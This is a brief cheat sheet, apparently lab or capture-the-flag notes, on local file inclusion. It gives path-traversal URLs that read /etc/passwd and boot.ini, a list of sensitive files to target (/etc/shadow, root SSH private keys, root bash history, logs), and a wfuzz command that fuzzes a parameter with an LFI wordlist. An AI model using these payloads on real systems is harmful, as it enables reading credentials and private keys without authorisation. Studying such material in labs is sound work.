 # LFI


## Test
Try to open  ../../../../../etc/passwd

- http://target/item?id=../../../../../etc/passwd

- http://webapp.thm/get.php?file=../../../../etc/passwd

- http://webapp.thm/get.php?file=../../../../boot.ini


Location	Description

- **/etc/issue** contains a message or system identification to be printed before the login prompt.
- **/etc/profile** controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived
- **/proc/version** specifies the version of the Linux kernel
- **/etc/passwd**	has all registered user that has access to a system
- **/etc/shadow**	contains information about the system's users' passwords
- ** /root/.bash_history** contains the history commands for root user
- **/var/log/dmessage** contains global system messages, including the messages that are logged during system startup
- **/var/mail/root** all emails for root user
- **/root/.ssh/id_rsa** Private SSH keys for a root or any known valid user on the server
- **/var/log/apache2/access.log** the accessed requests for Apache  webserver
- **C:\boot.ini** contains the boot options for computers with BIOS firmware

## WFUZZ
```
wfuzz -c -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php?page=FUZZ --hw=0
```

